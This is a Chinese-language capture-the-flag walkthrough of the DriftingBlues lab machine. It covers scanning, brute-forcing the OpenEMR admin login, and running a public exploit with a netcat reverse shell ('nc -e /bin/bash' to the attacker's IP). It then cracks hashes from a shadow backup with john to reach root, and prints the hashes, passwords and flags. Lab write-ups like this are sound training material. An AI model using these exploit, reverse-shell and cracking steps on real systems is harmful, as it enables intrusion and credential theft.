





# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)
192.168.21.9    08:00:27:d1:f6:42       PCS Systemtechnik GmbH
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.981 seconds (129.23 hosts/sec). 5 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 02:10 EDT
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.000094s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:D1:F6:42 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU --min-rate 10000 -p- 192.168.21.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 02:10 EDT
Warning: 192.168.21.9 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.00099s latency).
All 65535 scanned ports on 192.168.21.9 (192.168.21.9) are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
MAC Address: 08:00:27:D1:F6:42 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p80 192.168.21.9         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 02:11 EDT
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:D1:F6:42 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```
# 漏洞利用
直接是一个登录页面

目录扫描

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.9 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php,html,txt,zip,jpg,png,git

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.9
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,jpg,png,git,php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://192.168.21.9/images/]                                               
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 302) [Size: 0] [--> interface/login/login.php?site=default]                                      
/templates            (Status: 301) [Size: 316] [--> http://192.168.21.9/templates/]                                            
/services             (Status: 301) [Size: 315] [--> http://192.168.21.9/services/]                                             
/modules              (Status: 301) [Size: 314] [--> http://192.168.21.9/modules/]                                              
/common               (Status: 301) [Size: 313] [--> http://192.168.21.9/common/]                                               
/library              (Status: 301) [Size: 314] [--> http://192.168.21.9/library/]                                              
/public               (Status: 301) [Size: 313] [--> http://192.168.21.9/public/]                                               
/version.php          (Status: 200) [Size: 0]
/admin.php            (Status: 200) [Size: 937]
/portal               (Status: 301) [Size: 313] [--> http://192.168.21.9/portal/]                                               
/tests                (Status: 301) [Size: 312] [--> http://192.168.21.9/tests/]                                                
/sites                (Status: 301) [Size: 312] [--> http://192.168.21.9/sites/]                                                
/custom               (Status: 301) [Size: 313] [--> http://192.168.21.9/custom/]                                               
/contrib              (Status: 301) [Size: 314] [--> http://192.168.21.9/contrib/]                                              
/interface            (Status: 301) [Size: 316] [--> http://192.168.21.9/interface/]                                            
/vendor               (Status: 301) [Size: 313] [--> http://192.168.21.9/vendor/]                                               
/config               (Status: 301) [Size: 313] [--> http://192.168.21.9/config/]                                               
/setup.php            (Status: 200) [Size: 1214]
/sql                  (Status: 301) [Size: 310] [--> http://192.168.21.9/sql/]                                                  
/controller.php       (Status: 200) [Size: 37]
/ci                   (Status: 301) [Size: 309] [--> http://192.168.21.9/ci/]                                                   
/cloud                (Status: 301) [Size: 312] [--> http://192.168.21.9/cloud/]                                                
/ccr                  (Status: 301) [Size: 310] [--> http://192.168.21.9/ccr/]                                                  
/patients             (Status: 301) [Size: 315] [--> http://192.168.21.9/patients/]                                             
/repositories         (Status: 301) [Size: 319] [--> http://192.168.21.9/repositories/]                                         
/myportal             (Status: 301) [Size: 315] [--> http://192.168.21.9/myportal/]                                             
/entities             (Status: 301) [Size: 315] [--> http://192.168.21.9/entities/]                                             
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/wordlist.txt         (Status: 200) [Size: 14394]
/controllers          (Status: 301) [Size: 318] [--> http://192.168.21.9/controllers/]                                          
/server-status        (Status: 403) [Size: 277]
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
```
/wordlist.txt
得到一个字典，保存下来

/setup.php

/admin.php

拿刚才得到的字典爆破一下，爆破出来：admin/.:.yarrak.:.31


登陆成功

找一下漏洞吧


```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit openemr 5.0.1   
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
OpenEMR 5.0.1 - 'controller'  | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code E | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code E | php/webapps/49486.rb
OpenEMR 5.0.1.3 - 'manage_sit | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_sit | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authentica | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authenticat | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code | php/webapps/45161.py
OpenEMR 5.0.1.7 - 'fileName'  | php/webapps/50037.py
OpenEMR 5.0.1.7 - 'fileName'  | php/webapps/50087.rb
------------------------------ ---------------------------------
Shellcodes: No Results
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 45161     
  Exploit: OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/45161
     Path: /usr/share/exploitdb/exploits/php/webapps/45161.py
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/kali/45161.py
┌──(kali㉿kali)-[~]
└─$ python2 45161.py http://192.168.21.9 -u admin -p .:.yarrak.:.31 -c 'nc -e /bin/bash 192.168.21.13 4444'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with admin:.:.yarrak.:.31
[$] Injecting payload
```
注意，要用python2
反弹回来了

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.9] 34120
python -c "import pty;pty.spawn('/bin/bash')"
www-data@driftingblues:/var/www/html/interface/main$ 
```

# 提权
clapton应该就是要先提权到的用户
```bash
www-data@driftingblues:/var/www/html/interface/main$ cat /etc/passwd | grep /bin/bash
<ml/interface/main$ cat /etc/passwd | grep /bin/bash 
root:x:0:0:root:/root:/bin/bash
clapton:x:1000:1000:,,,:/home/clapton:/bin/bash
```
传个linpeas.sh搜集一下信息，找到了备份信息

```bash
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 943 Apr 25  2021 /var/backups/shadow.backup                                                              
-rwxrwxrwx 1 www-data www-data 2179 May 28  2018 /var/www/html/interface/main/backuplog.php
-rwxrwxrwx 1 www-data www-data 27999 May 28  2018 /var/www/html/interface/main/backup.php
-rwxrwxrwx 1 www-data www-data 1992 May 28  2018 /var/www/html/interface/main/backuplog.sh
-rwxrwxrwx 1 www-data www-data 1117 May 28  2018 /var/www/html/contrib/util/backup_oemr.sh
-rw-r--r-- 1 root root 303 Oct 26  2018 /usr/share/doc/hdparm/changelog.old.gz
-rw-r--r-- 1 root root 7867 Jul 16  1996 /usr/share/doc/telnet/README.old.gz
-rw-r--r-- 1 root root 363752 Apr 30  2018 /usr/share/doc/manpages/Changes.old.gz
-rw-r--r-- 1 root root 348 Nov 25  2020 /usr/share/man/man1/wsrep_sst_mariabackup.1.gz
-rw-r--r-- 1 root root 2754 Jun 21  2019 /usr/share/man/man8/vgcfgbackup.8.gz
-rw-r--r-- 1 root root 6199 Mar 19  2021 /usr/lib/modules/4.19.0-16-686-pae/kernel/drivers/net/team/team_mode_activebackup.ko
-rwxr-xr-x 1 root root 38412 Nov 25  2020 /usr/bin/wsrep_sst_mariabackup
```
有我们刚才要找的clapton
```bash
www-data@driftingblues:/var/www/html/interface/main$ cd /var/backups
cd /var/backups
www-data@driftingblues:/var/backups$ ls -la
ls -la
total 28
drwxr-xr-x  2 root root  4096 Mar 13 02:09 .
drwxr-xr-x 12 root root  4096 Apr 25  2021 ..
-rw-r--r--  1 root root 13873 Apr 25  2021 apt.extended_states.0
-rw-r--r--  1 root root   943 Apr 25  2021 shadow.backup
www-data@driftingblues:/var/backups$ cat shadow.backup
cat shadow.backup
root:$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:18742:0:99999:7:::
daemon:*:18742:0:99999:7:::
bin:*:18742:0:99999:7:::
sys:*:18742:0:99999:7:::
sync:*:18742:0:99999:7:::
games:*:18742:0:99999:7:::
man:*:18742:0:99999:7:::
lp:*:18742:0:99999:7:::
mail:*:18742:0:99999:7:::
news:*:18742:0:99999:7:::
uucp:*:18742:0:99999:7:::
proxy:*:18742:0:99999:7:::
www-data:*:18742:0:99999:7:::
backup:*:18742:0:99999:7:::
list:*:18742:0:99999:7:::
irc:*:18742:0:99999:7:::
gnats:*:18742:0:99999:7:::
nobody:*:18742:0:99999:7:::
_apt:*:18742:0:99999:7:::
systemd-timesync:*:18742:0:99999:7:::
systemd-network:*:18742:0:99999:7:::
systemd-resolve:*:18742:0:99999:7:::
messagebus:*:18742:0:99999:7:::
systemd-coredump:!!:18742::::::
mysql:!:18742:0:99999:7:::
clapton:$6$/eeR7/4JGbeM7nwc$hANgsvO09hCCMkV5HiWsjTTS7NMOZ4tm8/s4uzyZxLau2CSX7eEwjgcbfwcdvLV.XccVW5QuysP/9JBjMkdXT/:18742:0:99999:7:::
```
破解一下hash

```bash
┌──(kali㉿kali)-[~]
└─$ john -w=/usr/share/wordlists/rockyou.txt 1.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragonsblood     (?)     
1g 0:00:01:09 DONE (2025-03-13 04:54) 0.01442g/s 3204p/s 3204c/s 3204C/s echavarria..dodolipet
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
切换到clapton用户

```bash
www-data@driftingblues:/var/backups$ su clapton
su clapton
Password: dragonsblood

clapton@driftingblues:/var/backups$ 
```
user.txt

```bash
clapton@driftingblues:/var/backups$ cd ~
cd ~
clapton@driftingblues:~$ ls -la
ls -la
total 1440
drwx------ 3 clapton clapton    4096 Mar 13 04:55 .
drwxr-xr-x 3 root    root       4096 Apr 25  2021 ..
-rw------- 1 clapton clapton      58 Apr 25  2021 .bash_history
drwx------ 3 clapton clapton    4096 Mar 13 04:55 .gnupg
-rw-r--r-- 1 clapton clapton      32 Apr 25  2021 user.txt
-rwsr-xr-x 1 root    root      17824 Apr 25  2021 waytoroot
-rw-r--r-- 1 clapton clapton 1431736 Apr 25  2021 wordlist.txt
clapton@driftingblues:~$ cat user.txt    
cat user.txt
96716B8151B1682C5285BC99DD4E95C2
```
找一下信息

```bash
clapton@driftingblues:~$ sudo -l
sudo -l
bash: sudo: command not found
clapton@driftingblues:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/home/clapton/waytoroot
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
clapton@driftingblues:~$ which getcap
which getcap
/usr/sbin/getcap
clapton@driftingblues:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
```
wordlist.txt也是个字典，爆破一下root

```bash
┌──(kali㉿kali)-[~]
└─$ john -w=wordlist.txt root     
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
.:.yarak.:.      (?)     
1g 0:00:00:16 DONE (2025-03-13 05:39) 0.06105g/s 3578p/s 3578c/s 3578C/s kruimel..gamess
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
成功切换到了root

```bash
clapton@driftingblues:~$ su root
su root
Password: .:.yarak.:.

root@driftingblues:/home/clapton# 
```
root.txt

```bash
root@driftingblues:/home/clapton# cd ~  
cd ~
root@driftingblues:~# ls -la
ls -la
total 20
drwx------  3 root root 4096 Apr 25  2021 .
drwxr-xr-x 18 root root 4096 Apr 25  2021 ..
-rw-------  1 root root  181 Apr 25  2021 .bash_history
drwx------  3 root root 4096 Apr 25  2021 .gnupg
-rw-r--r--  1 root root   32 Apr 25  2021 root.txt
root@driftingblues:~# cat root.txt
cat root.txt
E8E7040D825E1F345A617E0E6612444A
```